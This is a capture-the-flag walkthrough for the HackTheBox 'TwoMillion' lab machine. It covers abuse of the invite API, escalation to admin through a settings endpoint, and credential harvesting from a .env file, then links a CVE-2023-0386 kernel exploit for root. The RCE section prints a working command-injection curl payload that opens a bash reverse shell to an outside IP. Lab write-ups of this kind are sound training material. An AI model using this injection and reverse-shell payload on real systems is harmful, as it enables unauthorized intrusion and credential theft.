

 </br>[](https://git.io/typing-svg)
</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>
</br>
</br>
</br>
## Nmap-scan
</br>

First, let's initiate a quick scan utilizing nmap.


<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>
</br>

It appears that we need to include "2million.htb" in our hosts file

```bash
echo "10.10.11.221 2million.htb" >> /etc/hosts
```
</br>

## Trying to have access

Upon visiting the website, I discovered it's an outdated version of the HackTheBox platform. To gain access, I attempted to log in using the default credentials, but unfortunately, I received an error message indicating that the user not found.
<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>
</br>
While exploring the website, I discovered that I can join the platform by obtaining an invite code.
</br>

`http://2million.htb/invite`

</br>
I came across a JavaScript code that contains some intriguing elements. 
</br>

`/js/inviteapi.min.js`

<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>

</br>
I am interested in generating my own invite code as well.
</br>
I will examine the endpoint "/api/v1/invite/how/to/generate" to gather more information.
</br>


<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>
</br>

After decoding the ROT13 cipher, we discovered the method to generate our own invite code.


</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>

Let's proceed with generating our invite code using the discovered method

</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>
</br>
Since the invite is encoded using base64, it should be easy to obtain one.

</br>

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d
```

## Gain administrative

</br>

Upon logging in with the provided invite code, I have started exploring additional API resources to discover more useful functionalities.


```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=b0akpjn8hlj8h2085dv674tgkv" |jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```

</br>

I will attempt to update my settings

</br>

```json
"PUT": {
         "/api/v1/admin/settings/update": "Update user settings"
      }
```

</br>

<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>


Great! Now that we have successfully obtained administrative privileges, we can proceed to gain RCE.

## Having a RCE

Now that we have administrative access, we can examine :

```json
 "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
```

It seems that after spending some time searching, I have discovered a Remote Code Execution (RCE) vulnerability in the username parameter. This is a significant finding as it allows you to inject commands and potentially gain unauthorized access.

`/api/v1/admin/vpn/generate`


<a href="https://app.hackthebox.com/machines/TwoMillion">
  
</a>

Now that we have identified the Remote Code Execution (RCE) vulnerability, we can exploit it 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
```

Congratulations! HAHA

## Privilege 

After logging in, I discovered an interesting file named ".env".

 ```bash
 
 ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 21:40 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 21:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```
```bash
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=S************3
```

Upon inspecting the ".env" file, I found that it contains admin credentials

```bash

cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```


`admin is an user`

I will attempt to switch to the "admin" user by using the provided pass

we have gained access 'YoHOO'

While conducting further research, you came across some intriguing findings indicating the presence of a potential CVE

```bash
admin@2million:/var/www/html$ find / -perm -u=s -type f 2>/dev/null |grep "tmp"
/tmp/cve/ovlcap/upper/file
/tmp/.troll80lvl/CVE-2023-0386/ovlcap/upper/file
/tmp/CVE-2023-0386-main/ovlcap/lower/file
/tmp/CVE-2023-0386-main/ovlcap/upper/file
```


CVE-2023-0386  POC: 
[Link to CVE-2023-0386 Repository](https://github.com/xkaneiki/CVE-2023-0386)

By following the POC, I have acquired the ability to escalate the privileges to the root user level.

```bash
root@2million:/var/www/html# whoami
root
root@2million:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```
